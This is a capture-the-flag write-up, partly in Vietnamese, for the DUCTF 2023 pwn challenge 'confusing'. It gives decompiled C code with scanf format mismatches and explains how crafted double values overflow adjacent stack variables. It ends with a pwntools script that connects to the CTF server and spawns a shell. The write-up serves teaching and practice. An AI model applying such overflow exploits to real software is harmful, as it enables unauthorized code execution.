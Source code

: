 # confusing

## Source code

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int16 v4; // [rsp+2h] [rbp-1Eh] BYREF
  int v5; // [rsp+4h] [rbp-1Ch]
  double v6; // [rsp+8h] [rbp-18h] BYREF
  char s1[4]; // [rsp+14h] [rbp-Ch] BYREF
  unsigned __int64 v8; // [rsp+18h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  init(argc, argv, envp);
  printf("Give me d: ");
  __isoc99_scanf("%lf", &v4);
  printf("Give me s: ");
  __isoc99_scanf("%d", s1);
  printf("Give me f: ");
  __isoc99_scanf("%8s", &v6);
  if ( v5 == 0xFFFFFFFF && v4 == 0x3419 && v6 == 1.6180339887 && !strncmp(s1, "FLAG", 4uLL) )
    system("/bin/sh");
  else
    puts("Still confused?");
  return 0;
}
```

## Khai thác

- Ta thấy biến v4(2byte), v5(4byte) và nằm cạnh nhau. Trong khi `__isoc99_scanf("%lf", &v4);` cho phép nhập 8 byte => tràn biến
- Tuy nhiên đầu vào là `%lf` (double biểu diễn khác với long hay int), do vậy ta cần xem số double nào nhập vào có hex là 0x??ffffffff3419, mình lấy `0x43EFFFFFFFFF3419` == `18446744073602648000` [link convert](https://baseconvert.com/ieee-754-floating-point)

- Tiếp tục sử dụng link convert trên để đổi `1.6180339887 == 0x3FF9E3779B9486E5`
- Cuối cùng là flag FLAG

## script
```python
#!/usr/bin/python3

from pwn import *

exe = ELF('confusing', checksec=False)

context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b*main+160
                b*main+176
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('2023.ductf.dev', 30024)
else:
        p = process(exe.path)

GDB()
# 18446744073602648000
# 3FF9E3779B9486E5
sla(b'd: ', str(18446744073602648000))
sla(b's: ',str(u32("FLAG")))
sla(b'f: ', p64(0x3ff9e3779b9486e5))
p.interactive()

```